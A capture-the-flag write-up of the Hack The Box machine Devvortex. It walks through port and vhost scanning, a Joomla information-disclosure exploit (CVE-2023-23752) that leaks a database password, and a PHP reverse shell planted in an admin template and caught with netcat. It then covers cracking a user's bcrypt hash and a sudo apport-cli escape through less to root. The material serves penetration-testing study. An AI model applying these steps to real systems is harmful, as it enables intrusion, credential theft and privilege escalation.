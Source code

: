 # HTB - Devvortex

#### Ip: 10.10.11.242
#### Name: Devvortex
#### Rating: Easy

----------------------------------------------------------------------

![Devvortex.png](../Devvortex.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.11.242
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-06 12:44 CST
Warning: 10.10.11.242 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.242
Host is up (0.075s latency).
Not shown: 65463 closed tcp ports (reset), 70 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.05 seconds
```
Lets add http://devvortex.htb to `/etc/hosts`

Checking out the site we find a page offering developer services:

devvortex_site.png

After not finding much during directory fuzzing, I scanned for vhosts and found dev.devvortex.htb, which I also added to `/etc/hosts`. 

```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.11.242 -H "Host: FUZZ.devvortex.htb" --hh 154
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.242/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                     
=====================================================================

000000022:   502        7 L      12 W       166 Ch      "dev" 
```

Looking for directories we find an /administrator directory:
```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ dirsearch -u http://dev.devvortex.htb

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/ryan/HTB/Devvortex/reports/http_dev.devvortex.htb/_24-03-06_13-27-57.txt

Target: http://dev.devvortex.htb/

[13:27:57] Starting: 
[13:28:09] 403 -  564B  - /%2e%2e;/test
[13:28:17] 403 -  564B  - /admin/.config
[13:28:21] 301 -  178B  - /administrator  ->  http://dev.devvortex.htb/administrator/
```

Heading to this directory we see the site is running Joomla:

devvortex_admin.png

Looking for Joola exploit I find this information disclosure vulnerability: https://github.com/Acceis/exploit-CVE-2023-23752

### Exploitation

I can run the script and retrieve the usernames logan and lewis as well as a password for lewis:
```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ ruby joomla_disclosure.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

I am able to use Lewis' credentials to login to the Joomla site.

devvortex_login.png

Because we have administrator access, we should have an easy time getting remote code execution from here. Lets go to System > Templates > Administrator Templates > index.php and overwrite the file with PentestMonkey's php-reverse-shell.php. Now when we refresh the page and navigate back to the site, we catch a shell as www-data:

```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ nc -lnvp 443                 
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.242] 41584
Linux devvortex 5.4.0-167-generic #184-Ubuntu SMP Tue Oct 31 09:21:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 17:00:23 up 24 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ hostname
devvortex
```

Trying to grab the flag in Logan's home folder we get a permission denied:

```
www-data@devvortex:/home/logan$ cat user.txt
cat: user.txt: Permission denied
```

However the credentials we discovered earlier were actually to the joomla mysql DB, so lets login on the target and see if we can discover any other credentials:

devvortex_logan_hash.png

Nice, looks like we've found a hash for user logan. Lets try cracking it:

devvortex_john.png

John was able to crack the bcrypt hash for us: `logan:tequieromucho`

We can now `su logan` and grab the user.txt flag:

```
www-data@devvortex:/home/logan$ su logan
Password: 
logan@devvortex:~$ whoami
logan
```

devvortex_user.png

### Privilege Escalation

Running `sudo -l` to see if I can run anyhting with elevated permissions I find:

```
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

This is interesting. Looking for exploits I find if the program is using the `less` command, I can drop into a root shell.

First we run:
```
sudo /usr/bin/apport-cli --file-bug
```

Then select 1, and then 2. You will be prompted to input any key.

Next we can select `V` which will open up a terminal as root. from there we can declare `!/bin/bash` and drop into a root shell.

We can now grab the final flag:

devvortext_root.png

Thanks for following along!

-Ryan

-------------------------------------------
